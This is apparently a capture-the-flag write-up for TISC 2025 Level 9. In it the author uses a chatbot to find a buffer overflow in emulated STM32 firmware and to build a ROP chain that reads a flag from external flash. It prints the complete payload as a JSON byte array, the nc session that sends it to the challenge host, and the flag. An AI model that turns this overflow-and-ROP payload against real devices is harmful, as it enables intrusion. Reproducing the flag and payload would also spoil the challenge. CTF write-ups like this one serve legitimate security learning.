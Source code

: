 # Level-9 - HWisntThatHardv2

DESCRIPTION

Last year many brave agents showed the world what they could do against PALINDROME's custom TPM chips. Their actions sent chills down the spines of all those who seek to do us harm. This 

year, we managed to exfiltrate an entire STM32-based system and its firmware from within SPECTRE.

Since you probably do not have STM32 development boards at home, we have built an emulator that does its best to emulate the STM32 chip and its peripherals. This is neatly packaged inside a

docker container, so you can run it on your own machine.

Your mission, if you choose to accept it, is to find out what this device is built to do, how to interact with it, and, if possible, how to exploit it.

You will be provided with the following emulator + firmware:

- MD5 (HWisntThatHard_v2.tar.xz) = 1246c6248e2788613f702a50d162b748
- MD5 (config.yaml) = 5ea0a99dc870dd3ae31370e69c652002
- MD5 (csit_iot.bin) = 57a8e159e6d81e620f618258cd4f4a50
- MD5 (docker-compose.yml) = e284296706c38121e6074cfd09f0a062
- MD5 (Dockerfile) = 84ee422322a23d6e25e73d3a44e59763
- MD5 (ext-flash.bin) = 8ea3bc31ef48ec78012c0c46d857f50e
- MD5 (stm32-emulator) = 731c0d36f8949bd8a5f26ee05b821b8c
- MD5 (stm32f407.svd) = cd5687242c32a448d84e6995065ddaf1


You can perform your attack on a live STM32 module hosted behind enemy lines:

nc chals.tisc25.ctf.sg 51728

attached files

HWisntThatHard_v2.tar.xz

---

# WARNING: If you want to learn how to solve the challenge properly, find another writeup!

Now that the warning is over, CHAT kinda cooked this challenge for me but I'll still try to talk about the challenge :)

So I opened the csit_iot.bin in IDA and searched for strings and pressed X to see where they were being used and found the function sub_8007900().

I pasted the pseudo-code into CHAT and it told me

<img width="770" height="146" alt="image" src="https://github.com/user-attachments/assets/46751c70-bb7d-4a8c-a743-37fe3960d46d" />

Indeed, indeed.

I asked it how do I interect with the server and it gave me the proper format after multiple tries.

So I ran the server locally and started to try and expriement by myself.

```code
{"slot":1}
Slot 1 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
{"slot":2}
Slot 2 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
```

I asked CHAT where these values were coming from and it told me that it was getting it from ext-flash.bin.

So I checked it, and saw TISC{REAL_FLAG_GOES_HERE} :0.

Ok so somehow I had to make the server read from the first 32 bytes from the ext-flash.bin.

So I chatted to CHAT more and it told me to send it more functions for it to analyise.

After an intense prompt engineering session, it identified the buffer overflow bug.

To my understanding, when checking slots, once I sent more than 44 bytes, an address is in the next 4 bytes, the programme will jump to that address which allows us to constuct a ROP payload utilizing gadgets such that we can make the problem read the first 32 bytes of the ext-flash.bin.

And this is where it started to cook.

<img width="818" height="382" alt="image" src="https://github.com/user-attachments/assets/a2767272-21fd-493f-9c70-b4e0e37b381c" />

And so I gave the POP {R0-R3, PC} gadget at 0x080068EE to it, it then asked for a SPI READ address and I give it 0x08034E5C where the first four bytes were [03, 00, 00, 00], it then ask for a BLX R3 and I gave it 0x08005526 and then it cooked.

<img width="774" height="510" alt="image" src="https://github.com/user-attachments/assets/54f5ff8c-d974-430a-a853-79e70f4d8be2" />

I asked it to put everything into one line and got 
```
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
```

Now I just sent this to the server and I got the flag.

```
nc chals.tisc25.ctf.sg 51728
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
Checking...
TISC{3mul4t3d_uC_pwn3d}
```

FLAG: TISC{3mul4t3d_uC_pwn3d} (

(Okay, final challenge where CHAT did most of the thinking, once again read another write up for a better understanding of this challenge)
